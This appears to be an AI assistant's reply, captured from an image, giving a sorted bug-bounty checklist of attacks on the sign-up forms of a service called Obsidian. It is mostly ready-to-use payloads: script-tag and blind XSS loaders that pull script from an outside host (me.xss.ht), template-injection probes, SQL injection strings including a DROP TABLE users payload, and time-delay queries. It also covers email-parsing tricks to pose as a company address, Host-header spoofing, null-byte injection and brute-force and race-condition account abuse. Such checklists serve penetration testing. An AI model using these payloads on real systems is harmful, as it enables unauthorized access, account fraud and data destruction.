 Sure, let's integrate the additional items from your checklist into the existing sorted checklist. Here is the enhanced and sorted checklist for sign-up vulnerabilities in Obsidian:

---

### Sorted Checklist for Sign Up Vulnerabilities in Obsidian

This checklist is sorted by the potential vulnerability type and includes example payloads and additional notes.

#### General Vulnerability Categories

1. **Sensitive Information Disclosure**

   - **Existing Email Address Reflection:**
     - Payload: `email=existing@gmail.com`
     - Note: Check for authorization tokens or other sensitive information reflected in the response.

   - **Company Email Address Reflection:**
     - Payload: `email=admin@company.com`
     - Note: Check if this grants extra authorities or functionalities.

   - **Company Email Address Variations:**
     - Payloads: `admin@company.com (with space)`, `admin@COMPANY.COM`, `admin@gmail.com@company.com`, `me+(@gmail.com)@company.com`, `"me@gmail.com"@company.com`, `<me@gmail.com>"@company.com`, `"me@gmail.com;"@company.com`, `"me@gmail.com+"@company.com`
     - Note: Test these variations for potential access control bypass or sensitive information disclosure.

   - **Large String Injection:**
     - Payload: Inject large strings (50,000+ characters) into POST parameters.
     - Note: Monitor for errors, which may reveal sensitive information.

2. **Cross-Site Scripting (XSS)**

   - Payloads:
     - `me+(<script>alert(0)</script>)@gmail.com`
     - `me(<script>alert(0)</script>)@gmail.com`
     - `me@gmail(<script>alert(0)</script>).com`
     - `"<script>alert(0)</script>"@gmail.com`
     - `"<%= 7 * 7 %>"@gmail.com` (for SSTI)
     - `me+(${{7*7}})@gmail.com` (for SSTI)
     - `"' OR 1=1 -- '"@gmail.com` (for SQLi)
     - `"me); DROP TABLE users;--"@gmail.com` (for SQLi)
     - `%@gmail.com`
   - Note: Test these payloads in email addresses, usernames, first/last names, and password fields.

3. **Server-Side Template Injection (SSTI)**

   - Payloads:
     - `{{7*7}}, {7*7}, ${{7*7}}`
     - `<script src=//me.xss.ht></script>`
     - `<img src="//me.xss.ht">`
     - `<%` (to check for reflection in email body)
     - `<%= 7 * 7 %>` (for SSTI if `<%` is reflected)
   - Note: Test these payloads in first name, last name, and username fields.

4. **Blind XSS**

   - Payloads:
     - `"><script src=//me.xss.ht></script>`
     - `<img src="//me.xss.ht">`
   - Note: Test in first/last names, password fields, and user-agent headers.

5. **SQL Injection (SQLi)**

   - Payloads:
     - `' AND '1' = '2 OR`
     - `";WAITFOR DELAY '0.0.20'--`
   - Note: Test these payloads in email addresses, usernames, first/last names, and user-agent headers.

6. **Command Injection**

   - Payload:
     - `email=me@whoami.id.collaborator.net`
   - Note: Use Burp Collaborator and monitor for back-end information or internal IPs.

7. **Authentication Bypass**

   - **Company Email Address:**
     - Payload: `admin@company.com`
     - Note: Try accessing all endpoints without verifying the account.

   - **Spoofing Host Header:**
     - Payload: `X-Forwarded-Host: me.com`
     - Note: Test this if the company accepts the company email but doesn't activate the account.

8. **Brute Force**

   - Payload:
     - `email=me@gmail.com&password=********`
   - Note: Use brute force tools to create multiple accounts or enumerate email addresses.

9. **Race Conditions**

   - Payload:
     - `email=m&password=********&Invitation=Random` (for invitation-based signup)
   - Note: Use automation to create multiple accounts with a single invitation.

10. **Mobile-Number Verification**

    - Note: If the site uses mobile verification, investigate OTP expiration, response manipulation, and UUID tampering.

11. **CSRF**

    - Note: If no CSRF token or protection is present, attempt to craft a CSRF PoC.

12. **Hidden Character Injection**

    - Payload:
      - `bob%00 or %01bob`
    - Note: Inject invisible range characters (%00 to %FF) into usernames or emails.

13. **Time-Based SQLi**

    - Payload:
      - `";WAITFOR DELAY '0.0.20'--`
    - Note: Test this in X-Forwarded-For header.

14. **Other Checks**

    - **Birthday Field Manipulation:** Test setting birthdays to today or tomorrow for potential birthday discounts.

    - **Password Field Manipulation:**
      - Payload: `%01%E2%80%AEalert%0D%0A`
      - Note: Check for behavior if using only `%01`, logging in without CRLF, and if trela is accepted instead of alert.

    - **True/Null/Undefined Values:** Test these values in usernames and other fields for potential errors.

15. **Account Recovery/Deletion:**

    - Payload: Use the email address associated with a previously deleted account for sign up.
    - Note: Attempt to recover data from the deleted account.

16. **User-Agent Manipulation:**

    - Payload:
      - Inject SQLi payloads or blind XSS payloads in the user-agent header.
    - Note: Test this to see if the user-agent header is processed insecurely.

#### Important Notes

- **Use Burp Suite:** Use Burp Suite for intercepting requests and responses, creating payloads, and setting up TLS Pass Through for Google reCAPTCHA bypass.
- **Collaborator Server:** Leverage Burp Collaborator for detecting back-end information, internal IPs, and blind XSS.
- **Security Best Practices:** Always follow security best practices and consult with your organization's security team before testing these techniques on production systems.

---

This enhanced checklist includes all the items from your list and incorporates additional points for a comprehensive vulnerability assessment.
